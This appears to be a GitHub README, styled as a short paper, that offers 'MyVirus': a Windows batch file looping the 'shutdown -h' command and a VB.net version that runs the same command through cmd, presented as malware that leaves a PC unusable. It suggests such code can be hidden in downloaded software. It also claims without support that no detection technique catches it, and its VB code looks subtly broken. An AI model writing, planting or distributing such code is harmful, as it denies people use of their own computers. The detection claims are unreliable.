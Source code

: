# MyVirus
My malware virus 

Failure of Malware detection Techniques in front
Wadï Mami Malware
Date of publication : 10/08/2020
Author : Wadï Mami
e-mail : didipostman77@gmail.com

Abstract :

Many malware analysis and detection techniques are studied and compared. But none of them is able to detect My Malware. A Malware that works fine for Windows 2000/XP/7/8/10 which makes it severe but not very dangereous as it causes a Dos a denial of service Well a denial of all services as your Windows Pc or Laptop is intact but you can’t make use of it any more till a specialist intervention.

Wadï Mami Malware : Here I share with you myvirus.bat file virus code it can be converted to .exe or .com myvirus.bat code :

------------------------------------------------ 

echo off 

rem clean screen

cls 

rem definition return point

:loop 

rem execute shutdown -h 

shutdown -h 

rem return to :loop 

goto loop 

--------------------------------------------------

If you excuted it is your own risks don’t blame me if you excuted it is your own risks don’t blame me. That kind of code can be hidden in software you use or you download and install. It works fine for windows 2000/XP/7/8/10.

Moreover here a VB.net equivalent code to the .bat DOS Shell above A VB.net Source Code as an example It works fine for Windows XP/7/8/10. 

--------------------------------------------------------- 

Imports System.Runtime.InteropServices 

Module Module1 

Sub Main()

Dim process As Process = process.Start("cmd","/C shutdown -h")

Main() 

End Sub

--------------------------------------------------

As you can see all high generation Languages can exploit this DOS command shutdown –h which leads to a DoS a denial of service well a denial of all the services as your Windows Pc is intact but you can’t make use of it.

Conclusion :

What is the solution to avoid this kind of exploit of this DOS command shutdown.
Shall Microsoft Depricated it or shall keep it assuming security measurements in using it.
